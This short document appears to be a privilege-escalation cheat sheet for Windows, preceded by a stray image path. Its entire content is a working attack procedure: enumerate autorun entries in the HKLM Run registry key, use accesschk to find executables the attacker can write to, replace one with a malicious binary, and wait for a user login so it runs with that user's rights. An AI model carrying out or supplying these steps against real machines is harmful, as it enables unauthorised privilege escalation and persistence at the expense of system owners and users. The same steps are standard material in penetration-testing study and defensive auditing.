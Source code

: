 First, get paths of all autoruns:
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Then, check for priveleges:
```
accesschk.exe /accepteula -wvu EXECUTABLE_PATH
```

If you have `RW` access, overwrite the executable:
```
copy MALICIOUS_FULL_PATH ORIGINAL_FULL_PATH
```

To run the exploit, log in (new RDP session / relog / wait for someone else to log in)
